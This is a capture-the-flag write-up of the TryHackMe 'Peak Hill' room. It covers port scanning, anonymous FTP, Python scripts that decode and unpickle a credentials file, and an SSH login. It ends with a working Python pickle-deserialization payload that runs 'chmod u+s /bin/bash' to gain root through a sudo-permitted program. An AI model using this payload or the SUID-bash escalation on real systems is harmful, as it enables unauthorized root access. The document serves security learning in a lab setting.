





# TryHackMe(THM) - Peak Hill - WriteUp

> Austin Lai | August 10th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Peak Hill](https://tryhackme.com/room/peakhill)

Difficulty: **Medium**

The room is completed on May 24th, 2020

<!-- /Description -->

---

## Table of Contents

<!-- TOC -->

- [TryHackMeTHM - Peak Hill - WriteUp](#tryhackmethm---peak-hill---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
Deploy and compromise the machine!
```

_What is the user flag?_

_What is the root flag?_

## Let's Begin Here !!!

Let fire up basic enumeration.

Nmap result:

```text
# Nmap 7.80 scan initiated Sun May 24 19:32:55 2020 as: nmap --privileged --stats-every 10s -vvvvvv -Pn -p- -A -sC -O -sS -sV --version-all -T4 --min-parallelism 70 --script=vuln --append-output -oN TryHackMe-PeakHill1 10.10.148.201
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.148.201
Host is up, received user-set (0.24s latency).
Scanned at 2020-05-24 19:33:34 Malay Peninsula Standard Time for 873s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE  REASON         VERSION
20/tcp   closed ftp-data reset ttl 63
21/tcp   open   ftp      syn-ack ttl 63 vsftpd 3.0.3
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp   open   ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
7321/tcp open   swx?     syn-ack ttl 63
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, DistCCD, FourOhFourRequest, GenericLines, GetRequest, HELP4STOMP, HTTPOptions, Hello, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, Memcache, NCP, NessusTPv10, NessusTPv11, NessusTPv12, NotesRPC, OfficeScan, RPCCheck, RTSPRequest, Radmin, SIPOptions, SMBProgNeg, SSLSessionReq, SSLv23SessionReq, Socks4, Socks5, TLSSessionReq, TerminalServer, TerminalServerCookie, Verifier, VerifierAdvanced, WMSRequest, WWWOFFLEctrlstat, X11Probe, ms-sql-s, mydoom, oracle-tns: 
|     Username: Password:
|   NULL: 
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7321-TCP:V=7.80%I=9%D=5/24%Time=5ECA5CCC%P=i686-pc-windows-windows%
SF:r(NULL,A,"Username:\x20")%r(GenericLines,14,"Username:\x20Password:\x20
SF:")%r(GetRequest,14,"Username:\x20Password:\x20")%r(HTTPOptions,14,"User
SF:name:\x20Password:\x20")%r(RTSPRequest,14,"Username:\x20Password:\x20")
SF:%r(RPCCheck,14,"Username:\x20Password:\x20")%r(DNSVersionBindReqTCP,14,
SF:"Username:\x20Password:\x20")%r(DNSStatusRequestTCP,14,"Username:\x20Pa
SF:ssword:\x20")%r(Hello,14,"Username:\x20Password:\x20")%r(Help,14,"Usern
SF:ame:\x20Password:\x20")%r(SSLSessionReq,14,"Username:\x20Password:\x20"
SF:)%r(TerminalServerCookie,14,"Username:\x20Password:\x20")%r(TLSSessionR
SF:eq,14,"Username:\x20Password:\x20")%r(SSLv23SessionReq,14,"Username:\x2
SF:0Password:\x20")%r(Kerberos,14,"Username:\x20Password:\x20")%r(SMBProgN
SF:eg,14,"Username:\x20Password:\x20")%r(X11Probe,14,"Username:\x20Passwor
SF:d:\x20")%r(FourOhFourRequest,14,"Username:\x20Password:\x20")%r(LPDStri
SF:ng,14,"Username:\x20Password:\x20")%r(LDAPSearchReq,14,"Username:\x20Pa
SF:ssword:\x20")%r(LDAPBindReq,14,"Username:\x20Password:\x20")%r(SIPOptio
SF:ns,14,"Username:\x20Password:\x20")%r(LANDesk-RC,14,"Username:\x20Passw
SF:ord:\x20")%r(TerminalServer,14,"Username:\x20Password:\x20")%r(NCP,14,"
SF:Username:\x20Password:\x20")%r(NotesRPC,14,"Username:\x20Password:\x20"
SF:)%r(DistCCD,14,"Username:\x20Password:\x20")%r(JavaRMI,14,"Username:\x2
SF:0Password:\x20")%r(Radmin,14,"Username:\x20Password:\x20")%r(NessusTPv1
SF:2,14,"Username:\x20Password:\x20")%r(NessusTPv11,14,"Username:\x20Passw
SF:ord:\x20")%r(NessusTPv10,14,"Username:\x20Password:\x20")%r(WMSRequest,
SF:14,"Username:\x20Password:\x20")%r(oracle-tns,14,"Username:\x20Password
SF::\x20")%r(mydoom,14,"Username:\x20Password:\x20")%r(WWWOFFLEctrlstat,14
SF:,"Username:\x20Password:\x20")%r(Verifier,14,"Username:\x20Password:\x2
SF:0")%r(VerifierAdvanced,14,"Username:\x20Password:\x20")%r(Socks5,14,"Us
SF:ername:\x20Password:\x20")%r(Socks4,14,"Username:\x20Password:\x20")%r(
SF:OfficeScan,14,"Username:\x20Password:\x20")%r(ms-sql-s,14,"Username:\x2
SF:0Password:\x20")%r(HELP4STOMP,14,"Username:\x20Password:\x20")%r(Memcac
SF:he,14,"Username:\x20Password:\x20");
Device type: storage-misc|general purpose|specialized|WAP|printer
Running (JUST GUESSING): HP embedded (90%), Linux 3.X|4.X|2.6.X|2.4.X (90%), Crestron 2-Series (88%), Asus embedded (87%)
OS CPE: cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:2.4 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: HP P2000 G3 NAS device (90%), Linux 3.10 - 3.13 (90%), Linux 3.10 - 4.11 (89%), Linux 3.11 (89%), Linux 3.12 (89%), Linux 3.13 (89%), Linux 3.13 or 4.2 (89%), Linux 3.16 (89%), Linux 3.2 - 3.5 (89%), Linux 3.2 - 3.8 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=5/24%OT=21%CT=20%CU=%PV=Y%DS=2%DC=T%G=N%TM=5ECA5EF7%P=i686-pc-windows-windows)
SEQ(TI=Z%CI=I%TS=8)
SEQ(SP=FB%GCD=1%ISR=10A%TI=Z%TS=B)
OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M508NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T5(R=N)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.002 days (since Sun May 24 19:45:36 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT       ADDRESS
1   252.00 ms 10.9.0.1
2   253.00 ms 10.10.148.201

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 24 19:48:07 2020 -- 1 IP address (1 host up) scanned in 912.92 seconds


# Nmap 7.80 scan initiated Sun May 24 19:32:59 2020 as: nmap --privileged --stats-every 10s -vvvvvv -Pn -p- -sCSV -A -O --version-all -T4 --min-parallelism 50 --append-output -oN TryHackMe-PeakHill2 10.10.148.201
Nmap scan report for 10.10.148.201
Host is up, received user-set (0.23s latency).
Scanned at 2020-05-24 19:33:03 Malay Peninsula Standard Time for 894s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE  REASON         VERSION
20/tcp   closed ftp-data reset ttl 63
21/tcp   open   ftp      syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 May 15 18:37 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.183
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open   ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDeP0io1wWrWYeCtLqYTCxkE3UILotD77FRSxrUy0IZbmUBpYNt+B2NWt1kXPLXldnAGcjyEKIN36lcHXbxPxfPXrGQGfzdKUxE9kRVrLSrkd702cr2AoRp7sjiaJ/bsIKEHwWlNgJJedYdzutT73SUJTnVUS5HsJ9pKERRjI3jdAwJFjslniRIF/xA55myN/0zleZAmQ3PPs7UMqFoU8wxBGj2gLDrkOEszpbsRZu2qhZtGMCpRlxIs5ZKl+JPrF6laG3Em1oh7tPi6Qibf9p6P92iVy7bLa0s0kFdEn/lvp75vUJxUaeoAtKhV482jU6R/Bn1VSSccafgq3wu5QHV
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGXY1pEPDvAMnRbMdsY2+G5K3fMuTAAMXK+ekVlE/cbfv8GOnvTOJmECPgjXOxbknHltv2OCZi7L2NPxUNaTkGQ=
|   256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINsblxrCR5cC4mDOS8S/+KyqlCwu+cGETl6ujJWgevhN
7321/tcp open   swx?     syn-ack ttl 63
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, DistCCD, FourOhFourRequest, GenericLines, GetRequest, HELP4STOMP, HTTPOptions, Hello, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, Memcache, NCP, NessusTPv10, NessusTPv11, NessusTPv12, NotesRPC, OfficeScan, RPCCheck, RTSPRequest, Radmin, SIPOptions, SMBProgNeg, SSLSessionReq, SSLv23SessionReq, Socks4, Socks5, TLSSessionReq, TerminalServer, TerminalServerCookie, Verifier, VerifierAdvanced, WMSRequest, WWWOFFLEctrlstat, X11Probe, ms-sql-s, mydoom, oracle-tns: 
|     Username: Password:
|   NULL: 
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7321-TCP:V=7.80%I=9%D=5/24%Time=5ECA5CB6%P=i686-pc-windows-windows%
SF:r(NULL,A,"Username:\x20")%r(GenericLines,14,"Username:\x20Password:\x20
SF:")%r(GetRequest,14,"Username:\x20Password:\x20")%r(HTTPOptions,14,"User
SF:name:\x20Password:\x20")%r(RTSPRequest,14,"Username:\x20Password:\x20")
SF:%r(RPCCheck,14,"Username:\x20Password:\x20")%r(DNSVersionBindReqTCP,14,
SF:"Username:\x20Password:\x20")%r(DNSStatusRequestTCP,14,"Username:\x20Pa
SF:ssword:\x20")%r(Hello,14,"Username:\x20Password:\x20")%r(Help,14,"Usern
SF:ame:\x20Password:\x20")%r(SSLSessionReq,14,"Username:\x20Password:\x20"
SF:)%r(TerminalServerCookie,14,"Username:\x20Password:\x20")%r(TLSSessionR
SF:eq,14,"Username:\x20Password:\x20")%r(SSLv23SessionReq,14,"Username:\x2
SF:0Password:\x20")%r(Kerberos,14,"Username:\x20Password:\x20")%r(SMBProgN
SF:eg,14,"Username:\x20Password:\x20")%r(X11Probe,14,"Username:\x20Passwor
SF:d:\x20")%r(FourOhFourRequest,14,"Username:\x20Password:\x20")%r(LPDStri
SF:ng,14,"Username:\x20Password:\x20")%r(LDAPSearchReq,14,"Username:\x20Pa
SF:ssword:\x20")%r(LDAPBindReq,14,"Username:\x20Password:\x20")%r(SIPOptio
SF:ns,14,"Username:\x20Password:\x20")%r(LANDesk-RC,14,"Username:\x20Passw
SF:ord:\x20")%r(TerminalServer,14,"Username:\x20Password:\x20")%r(NCP,14,"
SF:Username:\x20Password:\x20")%r(NotesRPC,14,"Username:\x20Password:\x20"
SF:)%r(DistCCD,14,"Username:\x20Password:\x20")%r(JavaRMI,14,"Username:\x2
SF:0Password:\x20")%r(Radmin,14,"Username:\x20Password:\x20")%r(NessusTPv1
SF:2,14,"Username:\x20Password:\x20")%r(NessusTPv11,14,"Username:\x20Passw
SF:ord:\x20")%r(NessusTPv10,14,"Username:\x20Password:\x20")%r(WMSRequest,
SF:14,"Username:\x20Password:\x20")%r(oracle-tns,14,"Username:\x20Password
SF::\x20")%r(mydoom,14,"Username:\x20Password:\x20")%r(WWWOFFLEctrlstat,14
SF:,"Username:\x20Password:\x20")%r(Verifier,14,"Username:\x20Password:\x2
SF:0")%r(VerifierAdvanced,14,"Username:\x20Password:\x20")%r(Socks5,14,"Us
SF:ername:\x20Password:\x20")%r(Socks4,14,"Username:\x20Password:\x20")%r(
SF:OfficeScan,14,"Username:\x20Password:\x20")%r(ms-sql-s,14,"Username:\x2
SF:0Password:\x20")%r(HELP4STOMP,14,"Username:\x20Password:\x20")%r(Memcac
SF:he,14,"Username:\x20Password:\x20");
Device type: storage-misc|general purpose|broadband router|specialized|WAP|printer
Running (JUST GUESSING): HP embedded (91%), Linux 3.X|2.6.X|4.X (91%), Crestron 2-Series (89%), Asus embedded (87%)
OS CPE: cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 3.10 - 3.13 (91%), Linux 2.6.32 - 3.1 (90%), OpenWrt 12.09-rc1 Attitude Adjustment (Linux 3.3 - 3.7) (90%), Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 - 4.6 (90%), Linux 3.2 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=5/24%OT=21%CT=20%CU=%PV=Y%DS=2%DC=T%G=N%TM=5ECA5EED%P=i686-pc-windows-windows)
SEQ(SP=103%GCD=1%ISR=109%TI=Z%II=I%TS=8)
SEQ(SP=103%GCD=1%ISR=109%TI=Z%TS=8)
OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M508NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.008 days (since Sun May 24 19:35:51 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT       ADDRESS
1   260.00 ms 10.9.0.1
2   262.00 ms 10.10.148.201

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 24 19:47:57 2020 -- 1 IP address (1 host up) scanned in 898.58 seconds
```

FTP:

```dos
C:\Users\crazy\Desktop>ftp 10.10.148.201
Connected to 10.10.148.201.
220 (vsFTPd 3.0.3)
200 Always in UTF8 mode.
User (10.10.148.201:(none)): anonymous
331 Please specify the password.
Password:
230 Login successful.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 15  2020 .
drwxr-xr-x    2 ftp      ftp          4096 May 15  2020 ..
-rw-r--r--    1 ftp      ftp          7048 May 15  2020 .creds
-rw-r--r--    1 ftp      ftp            17 May 15  2020 test.txt
226 Directory send OK.
ftp: 252 bytes received in 0.01Seconds 42.00Kbytes/sec.
```

Now we got a file called "test.txt", if you open up, it's a SSH key.



And the .creds, it's contain binary.




Let's try to decode, and see what is the content.

[Here is the full python script](first-trial-decode-creds.py)

```python
import binascii, os, sys


open_file = open(os.path.join(sys.path[0], '.creds'), 'r')
data = open_file.read()
print(data+'\n')


# Since the content of the file is binary numeral base 2
# We can convert it to base 10
binary_decimal_data = int(data,2) 
print(binary_decimal_data)
print('\n')


# Once we have the base 10, we can covert to hex representation
hexadecimal_str=hex(binary_decimal_data)
print(hexadecimal_str)
print('\n')


# Then here we use binascii unhexlify to decode the hex to ASCII form
unhex_str = binascii.unhexlify(hexadecimal_str[2:])
print(unhex_str)
print('\n')


# OR you can use more straightforward methods here
# Take the base 10 data and pipe it to binascii unhexlify function to decode it with python string formatter operator %
# The conversion type is '%x' ---- which x represent hexadecimal and % represent no argument is converted
# unhex_str=binascii.unhexlify('%x' % binary_decimal_data)
# print(unhex_str)
# print('\n')
```

Note: If you want to learn more on the python string formatter operator, [check out here](https://python-reference.readthedocs.io/en/latest/docs/str/formatting.html)


The output of it shown as below

```text
b'\x80\x03]q\x00(X\n\x00\x00\x00ssh_pass15q\x01X\x01\x00\x00\x00uq\x02\x86q\x03X\t\x00\x00\x00ssh_user1q\x04X\x01\x00\x00\x00hq\x05\x86q\x06X\n\x00\x00\x00ssh_pass25q\x07X\x01\x00\x00\x00rq\x08\x86q\tX\n\x00\x00\x00ssh_pass20q\nh\x05\x86q\x0bX\t\x00\x00\x00ssh_pass7q\x0cX\x01\x00\x00\x00_q\r\x86q\x0eX\t\x00\x00\x00ssh_user0q\x0fX\x01\x00\x00\x00gq\x10\x86q\x11X\n\x00\x00\x00ssh_pass26q\x12X\x01\x00\x00\x00lq\x13\x86q\x14X\......................
```

We can see that, there are some noticeable data such as 'ssh_pass'.

Seems like a form of serialization, which we can use pickle module in python in this case to deserialize it.

If you want to learn more on pickle in python, [check out here](https://www.synopsys.com/blogs/software-security/python-pickling/)

Let's craft our next python script to decode it.

[Here is the full python script](second-trial-decode-creds.py)

```python
import binascii, os, sys, pickle


open_file = open(os.path.join(sys.path[0], '.creds'), 'r')
data = open_file.read()
print(data+'\n')


# Since the content of the file is binary numeral base 2
# We can convert it to base 10
binary_decimal_data = int(data,2) 
print(binary_decimal_data)
print('\n')


# Once we have the base 10, we can covert to hex representation
hexadecimal_str=hex(binary_decimal_data)
print(hexadecimal_str)
print('\n')


# Then here we use binascii unhexlify to decode the hex to ASCII form
unhex_str = binascii.unhexlify(hexadecimal_str[2:])
print(unhex_str)
print('\n')


# OR you can use more straightforward methods here
# Take the base 10 data and pipe it to binascii unhexlify function to decode it with python string formatter operator %
# The conversion type is '%x' ---- which x represent hexadecimal and % represent no argument is converted
# unhex_str=binascii.unhexlify('%x' % binary_decimal_data)
# print(unhex_str)
# print('\n')


# Then use pickle load method to unpickle the data into a python object
unpickled_data = pickle.loads(unhex_str)
print(unpickled_data)
print('\n')


# Set username and password variables to store the username and password, as well as turn it into dictionaries
username = ''
password = ''
unpickled_data = dict(unpickled_data)


# Use for loop to iterates 27 times as the highest number is 27 for the password, which you can check on the data 'ssh_pass27'
for i in range(28):
  
  # Since the amount of characters in the username is 6, we will need to set up error handling to error message given.
  try:
    username += unpickled_data[f'ssh_user{i}']
  except:
    pass
  password += unpickled_data[f'ssh_pass{i}']
  
print(f'username = {username}')
print(f'password = {password}')
```

Well, we have the username and password !

Let put it into our connect script and access the system.

```bash
#!/bin/bash

sshpass -vvvp '-----' ssh -vvv -p 22 -----n@10.10.148.201 -o StrictHostKeyChecking=no
```

Right in the home, we found 'cmd_service.pyc'
'
Let's copy it to our machine to de-compile it.



When you read through the script, it is a command executor with authentication using the username and password hard-coded in the script

There we have our second credentials, you will need to find a way to convert long long byte to ascii, carefully examine the script, there is a library module import for that.

Once you have the second credentials, as the script using port 7321.

We can connect to it and try to execute command right?



We found the user.txt right at home !

But we are unable to change directories, but we can enumerate through, so what else we can do?

Perhaps create our own ssh key so we can login?

Or we can also copy the ssh key?

After gaining ssh access, let try to get root then.

Basic sudo enumeration will do:

```bash
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```

Let run it and see what's happen.



While stuck in this little program quite some time, so I decided to take break and think through the room what it meant --- python library.

And it's only using pickle library for the past exploit, so maybe we can start from there?

Done some research on how to exploit python pickle library, [check out here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

[Python Pickle](https://docs.python.org/3/library/pickle.html) mentioned it is exploitable.

Let's craft our pickle exploit script on the machine, shall we?

[Here is the full python script](pickle-exploit.py)

```python
import pickle
import base64

# Since pickle serialize python object, so we have to create a class for it. 
class Command(object):
    def __reduce__(self):
        import os
        return (os.system,("chmod u+s /bin/bash",))
    
print(base64.b64encode(pickle.dumps(Command())))
```

Once you have the base64 exploit, input to the peak-hill-farm farm, there you can spawn new shell with bash and get the Root !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


